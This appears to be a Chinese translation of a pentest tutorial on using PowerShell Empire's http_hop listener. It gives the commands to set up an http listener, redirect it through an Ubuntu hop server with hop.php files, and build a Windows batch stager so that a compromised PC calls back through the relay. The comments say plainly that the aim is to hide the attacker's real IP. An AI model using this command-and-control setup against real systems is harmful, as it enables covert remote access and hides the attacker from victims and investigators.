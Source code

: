 ## 使用PowerShell Empire（http_hop）在Pentest期间隐藏IP [^1]

```bash
# kali 192.168.1.107
# Ubuntu 192.168.1.111
uselistener http
execute
# 启动http_hop侦听器
uselistener http_hop
set RedirectListener http
set Host http://192.168.1.111
# 执行上面的监听器将创建三个文件，如上图所示。将这些文件传输到 Ubuntu的/ var / www / html位置
usestager windows/launcher_bat
set Listener http_hop
execute
# 一旦我们的bat文件在目标PC中执行，我们将进行会话。现在，如果您观察到我们获得的IP会话是 Ubuntu 而不是Windows，但我们可以访问 Windows PC，类似地，在Windows中，它会显示攻击机器是Ubuntu而不是kali。因此我们的http_hop是有效的
# 总之， http_hop 监听器的主要优点是它可以帮助攻击者被识别为在目标PC上，因为所述监听器隐藏了原始IP。
```

[原文](https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/)

---

[^1]: 与Metasploit类似，Empire的跳跃侦听器使用hop.php文件。当您激活跳跃侦听器时，它将生成三个PHP文件，这些文件将重定向您现有的侦听器。将所述文件放在您的跳转服务器（ubuntu）中，然后根据通过介体（即我们的跃点监听器）获取会话来设置您的stager

